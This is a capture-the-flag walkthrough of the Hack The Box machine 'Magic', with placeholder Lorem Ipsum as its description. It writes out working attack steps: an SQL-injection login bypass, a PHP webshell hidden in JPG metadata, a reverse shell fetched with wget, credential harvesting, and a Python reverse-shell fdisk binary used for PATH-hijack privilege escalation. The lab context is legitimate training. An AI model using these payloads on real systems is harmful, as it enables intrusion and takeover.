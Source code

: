 ```yaml
---
title: Magic - Hack The Box
author: "0xPThree"
description: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2020-05-17
image: images/magic_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/magic_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. root@nidus:~# nmap -Pn -sC -sV -n 10.10.10.185
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
    |   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
    |_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: Magic Portfolio
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    DIRB:
    + http://10.10.10.185/index.php (CODE:200|SIZE:4052)
    + http://10.10.10.185/server-status (CODE:403|SIZE:277)

    NIKTO:
    + IP address found in the 'location' header. The IP is "127.0.1.1".
    + Cookie PHPSESSID created without the httponly flag
    + DEBUG HTTP verb may show server debugging information.
    + /login.php: Admin login page/section found.


2. Looking on the webpage we find a few images, however nothing interesting. On login.php we are prompted with username/password.
   There's nothing obvious, no usernames, no passwords. Looking for ways to bypass the login, first thing we should try is SQLi.

    Username: admin'#
    Password: <blank>

   Allows us to bypass the login. We are now prompted with a upload feature.


3. The upload only allows us to upload images. Trying to upload a script or .php-file and changing the mime type through burp is not
   possible. Instead we can create a malicious .jpg-file with embedded code to give us code execution.

   root@nidus:~/Pictures# exiftool -DocumentName="<h1>Player Three Has Entered The Game
<?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" skull.jpg
    1 image files updated

   root@nidus:~/Pictures# mv skull.jpg skull.php.jpg

   Upload the picture and we can now browse to it: http://magic.htb/images/uploads/skull.php.jpg
   Enumerate the box through the URL by executing the embedded code: http://magic.htb/images/uploads/skull.php.jpg?cmd=whoami
    www-data


4. To get a more stable shell we can upload a reverse php-shell through the webshell.

   Start a listener:
    root@nidus:~/Pictures# nc -lvnp 4488
      listening on [any] 4488 ...

   Setup your HTTP-server:
    root@nidus:/srv/pub-share# python3 -m http.server 8081
      Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...

   Download the reverse-shell:
    http://magic.htb/images/uploads/skull.php.jpg?cmd=wget%2010.10.14.11:8081/rev.php

   Execute the reverse shell and gain a connection:
    http://magic.htb/images/uploads/rev.php

      connect to [10.10.14.11] from (UNKNOWN) [10.10.10.185] 45530
      Linux ubuntu 5.3.0-42-generic #34~18.04.1-Ubuntu SMP Fri Feb 28 13:42:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
       12:05:55 up  2:41,  0 users,  load average: 0.00, 0.00, 0.00
      USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
      uid=33(www-data) gid=33(www-data) groups=33(www-data)
      /bin/sh: 0: can't access tty; job control turned off

    $ id
      uid=33(www-data) gid=33(www-data) groups=33(www-data)

    UPGRADE THE SHELL

5. Do standard enumeration with linPEAs.sh and we find a few interesting things.

   MySQL running locally on the box and the password used:
    tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -
    tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -

    [+] Finding 'pwd' or 'passw' variables inside /home /var/www /var/backups /tmp /etc /root /mnt (limit 70)
      ..
      /var/www/Magic/db.php5:    private static $dbUserPassword = 'iamkingtheseus';

  Further investigation of the db-file we find dbName and dbUsername:
    www-data@ubuntu:/tmp$ cat /var/www/Magic/db.php5
    <?php
    class Database
    {
        private static $dbName = 'Magic' ;
        private static $dbHost = 'localhost' ;
        private static $dbUsername = 'theseus';
        private static $dbUserPassword = 'iamkingtheseus';


6. Dump the contents of the database using mysqldump and we find another password.

    www-data@ubuntu:/tmp$ mysqldump Magic -u theseus -p
      Enter password:
      -- MySQL dump 10.13  Distrib 5.7.29, for Linux (x86_64)
      --
      -- Host: localhost    Database: Magic
      -- ------------------------------------------------------
      ..
      INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');

    SSH is only possible with public key, so change user with 'su theseus' to grab user.txt and add your public key to authorized_keys

    www-data@ubuntu:/tmp$ su theseus
      Password:
    theseus@ubuntu:~$ id
      uid=1000(theseus) gid=1000(theseus) groups=1000(theseus),100(users)
    theseus@ubuntu:~$ cat user.txt
      87a9eb3d4c4b7c0a77f9acdf124eed65


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Basic enumeration with linPEAs is sparse, but /bin/sysinfo is readable and stands out from the crowd.

    [+] Readable files belonging to root and readable by me but not world readable
      -rwsr-x--- 1 root users 22040 Oct 21  2019 /bin/sysinfo


   Running the program give us system information. To know exactly how we dig deeper with strings and find following commands:

    theseus@ubuntu:/bin$ strings sysinfo
      ..
      ====================Hardware Info====================
      lshw -short
      ====================Disk Info====================
      fdisk -l
      ====================CPU Info====================
      cat /proc/cpuinfo
      ====================MEM Usage=====================
      free -h


   Try to run all the command manually and we notice that "fdisk" won't print any output due to low privs. Root is probably needed,
   although this data got printed when executing "sysinfo".


2. Find where fdisk is located using fdisk, to see if we can do some simple PATH hijacking.

    theseus@ubuntu:/dev/shm$ which fdisk
      /sbin/fdisk

    theseus@ubuntu:/dev/shm$ echo $PATH | tr ":" "\n" | nl
       1	/usr/local/sbin
       2	/usr/local/bin
       3	/usr/sbin
       4	/usr/bin
       5	/sbin
       6	/bin
       7	/usr/games
       8	/usr/local/games
       9	/snap/bin

     /sbin is only on position 5, however none of the above directories is writable from Theseus.


3. Modify PATH and place your own, malicious, fdisk program.

    theseus@ubuntu:/dev/shm$ export PATH=/dev/shm:$PATH
    theseus@ubuntu:/dev/shm$ echo $PATH | tr ":" "\n" | nl
     1  /dev/shm
     2	/usr/local/sbin
     3	/usr/local/bin
     4	/usr/sbin
     5	/usr/bin
     6	/sbin
     7	/bin
     8	/usr/games
     9	/usr/local/games
     10	/snap/bin

   theseus@ubuntu:/dev/shm$ cat fdisk
     python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.11",4499));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


4. Run /bin/sysinfo to trigger your malicious file and get a root-shell.

    theseus@ubuntu:/dev/shm$ /bin/sysinfo

    root@nidus:/opt/shells# nc -lvnp 4499
      listening on [any] 4499 ...
      connect to [10.10.14.11] from (UNKNOWN) [10.10.10.185] 38338
      # whoami
        root
      # cat /root/root.txt
        a69ddb35ff2bf4ada26508463f841344


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

Login Bypass
  https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/

PATH
  https://www.cyberciti.biz/faq/howto-print-path-variable/
